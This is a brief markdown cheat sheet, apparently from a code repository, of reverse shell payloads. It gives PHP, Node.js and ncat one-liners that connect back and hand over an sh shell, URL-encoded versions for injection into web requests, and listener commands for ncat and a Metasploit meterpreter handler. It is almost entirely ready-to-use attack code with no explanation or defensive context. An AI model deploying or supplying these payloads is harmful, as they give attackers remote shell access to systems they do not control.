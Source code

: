 # REVERSE
*PHP <br>
php -r '$sock=fsockopen("127.0.0.1",1337);exec("sh <&3 >&3 2>&3");'<br>
encoded uri : php%20-r%20'$sock=fsockopen(%22127.0.0.1%22,1024);exec(%22sh%20%3C&3%20%3E&3%202%3E&3%22);'

* NODE JS<br>
require('child_process').exec('nc -e sh 127.0.0.1 1337')<br>
encoded uri : require('child_process').exec('nc%20-e%20sh%20127.0.0.1%201024');

* NETCAT <br>
ncat 127.0.0.1 1024 -e sh<br>
encoded uri : ncat%20127.0.0.1%201024%20-e%20sh


# LISTENER
* NETCAT<br>
$ ncat -lvnp 1024<br>

* MSFCONSOLE<br>
$ msfconsole -q -x "use multi/handler; set payload windows/x64/meterpreter/reverse_tcp; set lhost 127.0.0.1; set lport 1024; exploit"
